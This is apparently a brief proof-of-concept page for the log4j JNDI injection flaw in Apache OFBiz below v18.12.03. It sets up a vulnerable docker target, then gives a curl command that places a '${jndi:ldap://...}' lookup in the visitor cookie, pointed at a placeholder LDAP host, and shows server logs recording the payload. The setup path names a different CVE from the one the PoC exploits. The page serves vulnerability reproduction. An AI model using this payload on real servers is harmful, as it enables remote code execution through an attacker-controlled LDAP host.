

# Apache OFBiz log4j RCE

## Version

```
OFBiz < v18.12.03
```

## vulnerable app

```
git clone https://github.com/cckuailong/reapoc && cd reapoc/2020/CVE-2020-9496/vultarget/

docker-compose up -d
```

## Poc

```
curl --insecure -vv -H "Cookie: OFBiz.Visitor=\${jndi:ldap://ofbiz_test.yyyyyyyy}" https://xxxxxxxxxx/myportal/control/main
```

Log

```
2021-12-14 12:50:07,043 |sse-nio-8443-exec-16 |VisitHandler                  |I| Found visitorId [${jndi:ldap://localhost:1270/abc}] in cookie
2021-12-14 12:50:07,045 |sse-nio-8443-exec-16 |VisitHandler                  |I| The visitorId [${jndi:ldap://localhost:1270/abc}] found in cookie was invalid, creating new Visitor with ID [10010]
```

I've tested it


